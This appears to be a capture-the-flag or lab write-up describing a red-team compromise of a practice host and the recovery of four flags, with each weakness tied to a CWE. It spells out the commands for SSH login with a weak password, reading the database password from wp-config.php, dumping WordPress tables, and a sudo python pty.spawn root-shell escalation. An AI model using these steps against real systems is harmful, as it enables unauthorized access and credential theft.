 # **Red Team: Summary of Operations**

## TARGET 1

### Table of Contents

- Exposed Services
- Critical Vulnerabilities
- Exploitation

---

## Exposed Services

Nmap scan results reveals the below services and OS details:

nmap -sV 192.168.1.110

![1](/Resources/Images/1/1.png)

---

## Critical Vulnerabilities

The CVE and CWE databases give us information of vulnerabilities found in the previous step. These vulnerabilities are potential points of entry:

Vulnerability | Description | Impact
---|---|---
**CWE-200** | Exposure of sensitive Information to an unauthorized actor | Allowing sensitive information to be compromised so easily can result in a breach that can have significant affects on your business
**CWE-521** | Weak Password Requirements | Not enforcing a password policy allows users to choose passwords that they can easily remember which are not typically secure.
**CWE-284** | The software does not restrict or incorrectly restricts access to a resource from an unauthorized actor. | A user is able to execute elevated commands when they were not preauthorized to do so
**CWE-98** | An improper control of filename for include or require statement in PHP allows a LFI allowing remote attackers to execute arbitrary code | An attacker can execute commands on the web server remotely  allowing them to further compromise the target.

---

## Exploitation

The Red Team was able to penetrate Target1 and retrieve the following confidential data:

**flag1.txt:**  `b9bbcb33e11b80be759c4e844862482d`

- **CWE-200** Exposure of sensitive Information to an unauthorized actor
    
    Sensitive data was spotted in plain text embedded in the code of the service site. 
    
    Exploit:
    
    Using Google Chrome developer's Tools on the Url: `192.168.1.110/service.html' give a glance at the exposed sensitive data.
  
     **Flag1**

    ![2](/Resources/Images/2/5.png)

---

**flag2.txt:** `fc3fd58dcdad9ab23faca6e9a36e581c`

- **CWE-521:** Weak Password Requirements

    Access to the system was obtained through this weakness. The product does not require users to use strong passwords. This vulnerability makes it easier for attackers to compromise user accounts. User Michael utilizes his username as a password. Hydra can easily brute-force the password. Nevertheless, guessing the password was the efficient choice.
    
    Exploit:

    ```
        ssh michael@192.168.1.110
        Password: michael
        cd ../../
        find -iname “*flag*” 2>/dev/null
        cat /var/www/flag2.txt
    ```

    **Flag2**

    ![3](/Resources/Images/2/8.png)

---

**flag3.txt:**  `afc01ab56b50591e7dccf93122770cd2`

- **CWE-284** Server does not properly restrict access to a resource

    Privilege escalation is preceded by this vulnerability. The root password to access the SQL database is reachable in plain text on the file wp-config.php
    
    Exploit:
    ```
    Nano wp-config.php
    Look down mysql database password
    mysql -u root -p
    Password: R@v3nSecurity
    ```

    ![4](/Resources/Images/2/9.png)

    ```
    mysql -u root -p
    mysql> show databases;
    mysql> use wordpress;
    mysql> show tables;
    mysql> select * from wp_posts;
    ```

    **Flag3**

    ![11](/Resources/Images/2/22.png)  

    >#### note: Flag4 also appears in this exploit.

---

**flag4.txt:**  `715dea6c055b9fe3337544932f2941ce`

- **CWE-284** Improper Access Control

    Privilege on the system is obtained in this step after cracking the hashed password of a privileged user found in the SQL database. This allows to execute a Python Script that leads to a root access to the system.
  
    The user Steven has python root access. This led to a root privilege escalation.

    Exploit:
    
    1. Steven has the privilege to run python language as a root user
        ```   
            su steven
            Password: pink84
            sudo -l  
        ```
    
        ![8](/Resources/Images/2/16.png)

    2. Python Script
    
        sudo python -c 'import pty;pty.spawn("/bin/bash")'
 
        ![9](/Resources/Images/2/17.png)
    
        cat /root/flag4.txt
    
        **Flag4**

        ![10](/Resources/Images/2/19.png)